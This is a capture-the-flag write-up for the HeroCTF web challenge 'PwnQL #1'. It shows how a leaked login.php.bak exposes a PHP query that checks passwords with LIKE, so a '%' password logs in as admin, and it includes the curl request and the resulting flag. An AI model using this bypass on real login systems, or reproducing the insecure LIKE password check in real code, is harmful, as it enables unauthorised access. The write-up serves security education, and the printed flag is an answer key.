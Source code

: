 # PwnQL #1

### Category

Web

### Description

Login as *admin* to get the flag.

URL : http://chall2.heroctf.fr:8080

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

After looking at the source code of the page, we can find a hint about a file named **login.php.bak**.

```html
<!-- Hello dev, do not forget to remove login.php.bak before committing your code. -->
```

We can download this file ! Let's look at this content.

```php
$sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
$sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':username' => $username, ':password' => $password));
$users = $sth->fetchAll();
```

The query is prepared, so we cannot do a SQL injection but the query itself is vulnerable. The *LIKE* function is used, so the percentage (%) will match any string of zero or more characters (any passwords).

```
username : admin
password : %

$ curl -s -X POST "http://localhost:8080/" -d "username=admin&password=%" | grep "Hero{"
    <label style='color: white;'>Welcome back admin ! Here is your flag : Hero{pwnQL_b4sic_0ne_129835}</label><br> 
```

### Flag

Hero{pwnQL_b4sic_0ne_129835}
